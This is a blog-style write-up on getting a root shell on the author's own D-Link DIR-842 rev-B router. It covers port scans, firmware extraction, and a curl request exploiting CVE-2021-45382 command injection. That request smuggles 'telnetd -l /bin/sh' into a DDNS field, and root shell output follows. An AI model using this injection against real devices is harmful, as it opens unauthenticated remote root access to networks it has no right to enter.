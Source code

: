 +++
title = "D-LINK DIR-842 Rev-B privilege escalation"
description = "A quick blog post on how to enable telnet your REV-B device"
tags = [
"howto",
"research",
"firmware",
"shell",
]
date = "2022-06-06 17:00:00"
categories = [
"Research",
"Exploration",
]
keywords = [
"firmware",
"howto",
"research",
"shell",
]
image = "cover.png"

+++

In this quick blog post we'll see how to enable Telnet on your DIR-842 rev-b

<!--more-->

# Some background

There are known vulnerabilities on D-Link's DIR-842, but they are about the
[rev-C models](https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10184).

The rev-B are running a different portal AFAIK, and no exploit for code
execution was found during research.

## A first portscan

```shell
$ nmap 192.168.240.1
Starting Nmap 7.80 ( https://nmap.org ) at 2022-06-07 06:09 CEST
Nmap scan report for 192.168.240.1
Host is up (0.0029s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
443/tcp  open  https
MAC Address: 10:62:FF:FF:5A:FF (D-Link International)
```

Other than the usual web interface nothing special to see.

## Firmware extraction

As usual `binwalk` is used on the last firmware.

We're looking for web files and endpoints not mentioned in the web interface
itself.

The first candidate we found was

`http://192.168.0.1/SharePort.html`

![Home](/dlink/dir-842-shareport.png)

This feature shouldn't be present as the device has no USB ports whatsoever.

_So we enabled it :)_

## Exploring SharePort

After enabling the Web File Access, we run another port scan :

```shell
$ nmap 192.168.240.1
Starting Nmap 7.80 ( https://nmap.org ) at 2022-06-07 06:15 CEST
Nmap scan report for 192.168.240.1
Host is up (0.0029s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
443/tcp  open  https
8181/tcp open  intermapper
MAC Address: 10:62:FF:FF:5A:FF (D-Link International)
```

A new port has been opened, revealing another interface :

![Home](/dlink/dir-842-shareport-open.png)

Adding users and trying them doesn't bring any results as most requests are not
implemented.

## Switching to CVE-2021-45382

What is familiar though, is the call to `misc.ccp`, which is made on that
portal's login page.

A quick research dig bring up a result for this specific D-Link portal, where
`ddns_check.ccp` is vulnerable to command injection.

Kudos to
[eh-easyhacks](https://eh-easyhacks.blogspot.com/2022/04/cve-2021-45382.html)
for the details on the CVE !

You're going to need :

- Be authenticated on port 80, session opened
- `User-Agent` set
- `Referer` set

```shell
curl -kv 'http://192.168.240.1/ddns_check.ccp' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.64 Safari/537.36' \
  -H 'Referer: http://192.168.240.1:8181/login.asp' \
  --data-raw 'ccp_act=doCheck&ddnsHostName=;telnetd -l /bin/sh;&ddnsUsername=a&ddnsPassword=b'
```

## Voila

```shell
$ nmap 192.168.240.1
Starting Nmap 7.80 ( https://nmap.org ) at 2022-06-07 06:23 CEST
Nmap scan report for 192.168.240.1
Host is up (0.0027s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE
23/tcp   open  telnet
53/tcp   open  domain
80/tcp   open  http
443/tcp  open  https
8181/tcp open  intermapper
MAC Address:  10:62:FF:FF:5A:FF (D-Link International)

Nmap done: 1 IP address (1 host up) scanned in 0.34 seconds

$ telnet 192.168.240.1
Trying 192.168.240.1...
Connected to 192.168.240.1.
Escape character is '^]'.

# ps auxwww
  PID USER       VSZ STAT COMMAND
    1 root      1388 S    init
    2 root         0 SW<  [kthreadd]
    3 root         0 SW<  [ksoftirqd/0]
    4 root         0 SW<  [events/0]
    5 root         0 SW<  [khelper]
    8 root         0 SW<  [async/mgr]
   52 root         0 SW<  [kblockd/0]
   72 root         0 SW   [pdflush]
   73 root         0 SW<  [kswapd0]
  636 root         0 SW<  [mtdblockd]
  667 root         0 SWN  [jffs2_gcd_mtd2]
  683 root      1004 S    resetd
  710 root      1392 S    -/bin/sh
  711 root     15272 S    ncc2
 1072 root     15272 S    ncc2
 1073 root     15272 S    ncc2
 1074 root     15272 S    ncc2
 1075 root     15272 S    ncc2
 1076 root     15272 S    ncc2
 1077 root     15272 S    ncc2
 1078 root     15272 S    ncc2
 1079 root     15272 S    ncc2
 1080 root     15272 S    ncc2
 1083 root      1384 S    klogd
 1108 root      1392 S    crond
 5294 root      1384 S    syslogd -L -s 16
 5714 root      1104 S    dnsmasq -o -u root -i br0 -z br0 -a 192.168.240.1 -x
 5726 root      1136 S    lld2d br0
 5729 root      1372 S    mDNSResponderPosix -f /var/tmp/mdns_br0.conf -b -P /v
 7698 root      1616 S    proxy br0 54088 0 /var/tmp/proxy.conf
 7699 root      1624 S <  proxy br0 54088 0 /var/tmp/proxy.conf
 7924 root      1092 S    radvd -C /var/tmp/radvd_br0.conf -p /var/run/radvd_br
 8303 root      3736 S    jjhttpd -m RUN_HTTP -d /www -P /var/run/jjhttpd_0.pid
 8309 root      1660 S    lanmapd2 br0
 8380 root      1536 S    wscd -start -both_band_ap -c /var/wsc.conf -w wlan0 -
 8383 root      1040 S    iwcontrol wlan1 wlan0
 8398 root      1484 S    pppoe-relay -S eth1 -C br0
 8407 root      3736 S    jjhttpd -m RUN_HTTP -d /www -P /var/run/jjhttpd_0.pid
13574 root      3636 S    jjhttpd -m RUN_HTTP -d /wa_www -P /var/run/jjhttpd_2.
13577 root      3668 S    jjhttpd -m RUN_HTTPS -d /wa_www -P /var/run/jjhttpd_3
17394 root      3668 S    jjhttpd -m RUN_HTTPS -d /www -P /var/run/jjhttpd_1.pi
17532 root      3636 S    jjhttpd -m RUN_HTTP -d /wa_www -P /var/run/jjhttpd_2.
24434 root      1388 S    telnetd -l /bin/sh
24755 root      1392 S    /bin/sh
24762 root      1388 R    ps auxwww
```
